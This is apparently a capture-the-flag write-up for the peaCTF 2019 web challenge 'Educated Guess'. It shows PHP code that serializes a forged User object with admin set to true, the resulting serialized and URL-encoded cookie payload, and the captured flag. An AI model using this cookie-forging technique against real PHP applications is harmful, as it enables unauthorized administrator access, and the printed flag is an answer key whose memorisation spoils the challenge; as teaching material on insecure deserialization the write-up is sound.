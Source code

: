 # Educated Guess

* Category: Web Exploitation

## Description

There is a secured system running at http://shell1.2019.peactf.com:38461/query.php. You have obtained the source code. 

## Solution

The idea here is that the user's class gets automatically loaded and instantiated with the data contained in the cookie (sent by user's browser).

As the title suggests, this means that we should guess how the server script is implemented. Having control over the data sent, we can try to fool the server and get access to the flag.

After wasting some time trying to forge manually the cookie, I decided it would have been simpler to let php do the work for me.

I then created a class (User) to emulate the real one, and a script used to instantiate the class, serialize it and send me back the cookie.

```php
<?php // User.php
    class User
    {
        public $admin = true;
    }
?>
```

```php
<?php // test.php
    include 'User.php';

    $member = new User();
    $memberString = serialize( $member );
    echo "Converted the Member object to a string: '$memberString'";
    setcookie('user', $memberString);
?>
```

Visiting test.php with a browser I got this output:

Converted the Member object to a string: 'O:4:"User":1:{s:5:"admin";b:1;}'

So, the serialized class is:

> O:4:"User":1:{s:5:"admin";b:1;}

The cookie however is URL-encoded, so it shows up like this:

> O%3A4%3A%22User%22%3A1%3A%7Bs%3A5%3A%22admin%22%3Bb%3A1%3B%7D

I then copied the cookie and send it to the challenge's server, getting this flag:

**flag{peactf_follow_conventions_503a8284f2d1f9201de4932375268282}**


